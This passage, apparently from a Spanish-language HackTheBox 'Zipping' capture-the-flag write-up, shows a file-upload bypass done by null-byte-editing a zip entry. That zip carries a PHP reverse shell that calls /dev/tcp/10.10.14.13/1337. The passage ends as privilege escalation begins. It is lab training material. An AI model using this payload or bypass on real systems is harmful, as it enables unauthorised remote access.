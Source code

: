 ### Bypasseando la subida de archivos e intrusión al sistema

Probando distintos bypasses añadiendo null bytes por todas partes encuentro una manera.

Primero creamos un archivo `.pdf` y lo zipeamos de la siguiente forma:

```bash
❯ touch cmd.phpA.pdf

❯ echo "<?php system(\"/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.13/1337 0>&1'\")?>" > cmd.phpA.pdf

❯ zip exploit.zip cmd.phpA.pdf
```

La idea es editar el `.zip` en su forma hexadecimal cambiando la **A** (41 en hexadecimal) de `cmd.phpA.pdf` por un null byte (00).

Yo lo haré con neovim pero se puede hacer con cualquier herramienta que te permita editar en forma hexadecimal.

Con neovim es tan fácil como ejecutar `:%!xxd` dentro del editor y editar lo necesario.

![](@assets/HackTheBox/Zipping/vim1.png)

Para revertirlo a su estado original `%!xxd -r`

![](@assets/HackTheBox/Zipping/vim2.png)

Para salir y guardar `:wq`. Una vez hecho esto tenemos el `.zip` malicioso listo.

Nos ponemos en escucha y subimos el archivo.

![](@assets/HackTheBox/Zipping/upload.png)

Accedemos a `http://10.10.11.229/uploads/f506770511a884b9b2816942cdcb40ed/cmd.php` y tenemos shell como **rektsu**

![](@assets/HackTheBox/Zipping/revshell.png)

![](@assets/HackTheBox/Zipping/user.png)

# Escalada de privilegios

Vemos, ejecutando `sudo -l` que podemos ejecutar como cualquier usuario y sin contraseña el binario `/usr/bin/stock`.

Aquí puede haber muchas posibilidades así que antes de lanzarme a analizar el binario con ghidra, probar ataques de buffer overflow, etc.

Vamos a traernos el binario a nuestro equipo local y ver que pasa cuando lo ejecutamos.

## Análisis del binario
